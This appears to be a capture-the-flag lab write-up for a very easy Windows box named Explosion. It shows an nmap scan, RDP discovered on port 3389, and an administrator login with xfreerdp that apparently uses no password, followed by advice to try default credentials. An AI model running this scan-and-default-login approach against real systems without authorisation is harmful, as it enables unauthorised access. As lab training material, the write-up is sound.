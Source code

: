 # Box
Name: Explosion
ID: 5
Difficulty: Very Easy 

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`
  - `xfreerdp`

## 🎯 Target Environment
- **Ip Address**: 10.129.85.244
- **OS**: Windows

## 🧠 Recon
Nmap Scan:
```bash
nmap -sV 10.129.85.244
```
## 🔍 Enumeration
Found an open port **135/tcp**, running **msrpc** service
Found an open port **139/tcp**, running **netbios-ssn** service.
Found an open port **445/tcp**, running **microsoft-ds** service.
Found an open port **3389/tcp**, running **ms-wbt-server** service.

## 💥 Exploitation
1. Installed xfreerdp to connect to RDP service
````bash
sudo-apt-get install freerdp2-x11
````
2. Logged into RDP as administrator
````bash
xfreerdp /v:10.129.85.244 
xfreerdp /v:10.129.85.244 /u:administrator /cert:ignore
````
## 🔐 Privilege Escalation
Not required

## 🧼 Cleanup & Lessons
- xfreerdp session closed cleanly
- **Key takeaways**: 
- Always read the help files to see what you can utilize to gain access
- Always try default credentials: root, user, and administrator as credentials 

